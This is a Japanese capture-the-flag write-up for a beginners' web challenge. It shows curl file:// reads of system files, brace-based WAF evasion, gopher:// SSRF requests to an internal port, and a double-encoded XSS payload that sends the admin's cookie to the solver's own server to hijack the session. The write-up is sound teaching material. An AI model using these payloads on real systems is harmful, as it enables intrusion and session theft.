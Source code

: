 # CTF for Beginners NEXT 2017
## はじめに
このwriteupはCTF for Begginers nextでのweb問題のものです。

## 解き方
### 1. サイトの概要を調べる
* 所謂魚拓サイト。
* サイトのURLを送信するとサイト一覧に追加され、そのサイト一覧をクリックすると、サーバ側そこにアクセスしてレスポンスを表示する。

### 2. どこに脆弱性があるかの目安をつける
#### ページ書かれていることを読むと…
> Posted gyotakus are checked by admin
  * **XSSの問題 ?**
#### 適当に`hoge`と送信して、そのページに移動すると…
> curl: (6) Could not resolve host: hoge
  * **内部でcurlが使われている…だと！？**
    * curlをうまく使って、攻撃？
#### `<script>`とかを送信すると…
> Forbidden
  * **WAFが使われている？？**
    * パターンをうまく外してあげれば？？

### 3. curlを悪用して、ファイルを読み取る
#### curlのおぞましい機能
##### 多量のプロトコルに対応
  * fileが使える…？
    * file://etc/passwd
    * file://etc/apache2/apaches.conf

##### `{}`を使った機能
  * http://{A,B}.com
    => http://A.com http://B.com
  * http://{A}.com
    => http://A.com
    * WAFのパターンから外せる…？

##### 実際に送信してみると…
```file:///etc/{apache2}/apache2.conf```

```
ProxyPass / http://127.0.0.1:9999/
ProxyPassReverse / http://127.0.0.1:9999/
```

`127.0.0.1:8000`に直接投げ込めばOK ?

### 4. curlでオプションを使わずにPOSTを投げる
* **gopher**を使ってtcpでhttp postを書いてけばいける？
* [いい感じに%コーディングしてくれるスクリプト](https://gist.github.com/nicklegr/b55035f9c7aaef4788c3fe3b308cadb4) が便利！
  * nicklegr様ありがとうございます。

#### とりあえずHTTP GETを投げてみる
送信してみてWAFに引っかかった部分は、`{}`で囲みました。
##### コード
```
def encode(str)
  str
    .gsub(" ", "%20")
    .gsub("\n", "%0d%0a")
end

cmd = "curl gopher://localhost:9999/_" + encode(<<-EOD)
GET / HTTP/1.{1}
{Host}: localhost:9999
EOD

puts cmd
```
##### 送信した文字列
```
gopher://localhost:9999/_GET%20/%20HTTP/1.{1}%0d%0a{Host}:%20glocalhost:9999%0d%0a
```

#### 次はPOSTでサイトを追加する
##### コード
```
def encode(str)
  str
    .gsub(" ", "%20")
    .gsub("\n", "%0d%0a")
end

cmd = "curl gopher://localhost:9999/_" + encode(<<-EOD)
GET /new HTTP/1.{1}
{Host}: localhost:9999
{Content-Length}: 5
{Content-Type}: application/x-www-form-urlencoded
{Cookie}: session=自分のセッション

url=http://example.com
EOD

puts cmd
```

##### 送信した文字列
```
gopher://localhost:9999/_POST%20/new%20HTTP/1.{1}%0d%0a{Host}:%20localhost:9999%0d%0a{Content-Length}:%2022%0d%0a{Content-Type}:%20application/x-www-form-urlencoded%0d%0a{Cookie}:%20session=自分のセッション%0d%0a%0d%0aurl=http://example.com
```

### 5. XSSを投げるぞい
自分のサーバをたてて、そのサーバに対して管理者のクッキーを投げるように仕向ける。

#### その前に問題点
##### <script>に気づかれてしまった
もう一度コーディングする  
`<script>` => `%3C script %3E` => `%253C script %253E`

##### document.cookieもだめ
`cookie` => `%5B'cookie'%5D`

#### コード
```
def encode(str)
  str
    .gsub(" ", "%20")
    .gsub("\n", "%0d%0a")
end

cmd = "curl gopher://localhost:9999/_" + encode(<<-EOD)
POST /new HTTP/1.{1}
{Host}: localhost:9999
{Content-Length}: リクエストボディの文字数
{Content-Type}: application/x-www-form-urlencoded
{Cookie}: session=自分のクッキー

url=%253cscript>location.href="自分のサイトのURL/%3fa="%252bdocument%252ecookie%253c/script>
EOD

puts cmd
```
#### 送信した文字列
```
gopher://localhost:9999/_POST%20/new%20HTTP/1.{1}%0d%0a{Host}:%20localhost:9999%0d%0a{Content-Length}:%2094%0d%0a{Content-Type}:%20application/x-www-form-urlencoded%0d%0a{Cookie}:%20session=自分のクッキー%0d%0a%0d%0aurl=%253cscript>location.href="自分のサイトのURL/%3fa="%252bdocument%252ecookie%253c/script>
```

#### 結果
管理者のセッションがゲットできた！！
> session=293e53ca013fb6ece2ef7d773905495e503bf3ba38781363a504b21f0a3248e3

### 7. 管理者としてアクセス
Develover Tools -> Application -> Cookies のセッションを管理者のセッションにして再読込み！
そうするとフラグが見える！

> FLAG{cURL__is__GOD}
